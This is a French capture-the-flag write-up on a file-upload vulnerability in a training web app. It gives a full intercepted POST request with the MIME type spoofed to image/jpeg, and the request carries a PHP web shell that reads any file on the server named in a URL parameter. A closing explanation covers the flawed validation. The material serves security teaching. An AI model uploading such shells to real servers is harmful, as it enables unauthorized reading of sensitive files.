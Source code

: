 The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8


Il faut intercepter la requete Post pour upload l'image et changer 
Content-Type: application/x-php
par 
Content-Type: image/jpeg

POST /?page=upload HTTP/1.1
Host: 192.168.1.33
Content-Length: 597
Cache-Control: max-age=0
Accept-Language: fr-FR,fr;q=0.9
Origin: http://192.168.1.33
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNHtXWgyPKt1jS4A8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.33/?page=upload
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive

------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="uploaded"; filename="test.php"
Content-Type: application/x-php

<?php
if (isset($_GET['file'])) {
    echo "<pre>";
    echo file_get_contents($_GET['file']);
    echo "</pre>";
} else {
    echo "Veuillez fournir un fichier avec ?file=chemin_du_fichier.";
}
?>


------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryNHtXWgyPKt1jS4A8--


---------------------------------------------------------------------
Le type de vulnérabilité exploité ici est lié à l'upload de fichier non sécurisé.
Description :

Dans ce cas, l'application web accepte des fichiers uploadés par l'utilisateur, mais ne valide pas correctement le type MIME du fichier. Bien qu'une vérification soit effectuée pour s'assurer que les fichiers sont des images, cette vérification repose uniquement sur le type MIME indiqué dans l'en-tête HTTP, qui peut être falsifié. En conséquence, un fichier malveillant comme un script PHP peut être déguisé en image en modifiant le type MIME (Content-Type).

Lors de l'upload, l'application suppose que le fichier est une image (par exemple, image/jpeg), mais le contenu réel est un script PHP. Si ce fichier est ensuite accessible via le serveur et interprété comme du code, il peut être utilisé pour exécuter des commandes malveillantes, accéder à des fichiers sensibles, ou obtenir un accès non autorisé au serveur.
Points clés :

    Type MIME manipulable : L'en-tête Content-Type peut être modifié manuellement pour tromper le serveur.
    Vérification insuffisante côté serveur : L'application ne valide pas correctement le contenu ou l'extension réelle du fichier.
    Exécution de code malveillant : Une fois uploadé, le fichier peut être utilisé pour exécuter des commandes sur le serveur.

Ce type de vulnérabilité est courant lorsque les développeurs ne mettent pas en œuvre des validations robustes sur les fichiers uploadés.